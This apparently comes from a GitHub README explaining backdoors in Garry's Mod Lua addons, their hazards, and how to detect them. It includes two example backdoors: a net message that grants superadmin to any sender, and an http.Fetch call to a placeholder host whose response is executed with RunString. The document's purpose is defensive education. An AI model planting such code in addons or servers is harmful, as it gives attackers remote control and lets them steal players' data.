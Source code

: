 # About backdoors

A "back door" is a different entrace to something which ignores authentication / verification.

An easy example would be:

```lua
net.Receive("MakeMeAdmin",function(len,ply)
    ply:SetUserGroup("superadmin")
end)
```

This code example above would make any player superadmin that could send that net message to the server.

This example is a bit "obvious" because of its net name, normally the code would be obfuscated or name-changed to something innocent.

Most backdoors nowadays are done via http.  
An example:

```lua
http.Fetch("https://example.com/getlua.php?key=3",function(body)
    RunString(body)
end)
```

The above example simply gets the lua file from a webserver and executes it, which means the adversary can change the code that gets executed without having to change the backdoor itself.

This example can also be found rather easily by searching for "http" calls in all your addons (e.g. via CTRL+F), which would require obfuscation to make it more invisible.


## Potential hazards

If someone has access to your "lua server state" they can do everything and anything with it.  
This includes:

 - Steal any and all lua files
 - Make everything superadmin
 - Corrupt database or data/ folder
 - Crash player's game via spam
 - Reset any custom addon settings for players
 - Get the IP, country, etc. of players

That's why it is important to remove any and all backdoors you find.

## Detecting

To detect backdoors you can use scripts that search for your files (e.g. "nomalua" or luctus' bdscanner, found in darkrp-exploits/scripts) or simply search for them yourself.

Most can be found by searching for "http" or "RunString" or "CompileString" through all your lua files.

Some may be harder to find. I recommend to let your developer search through your addons to find them.
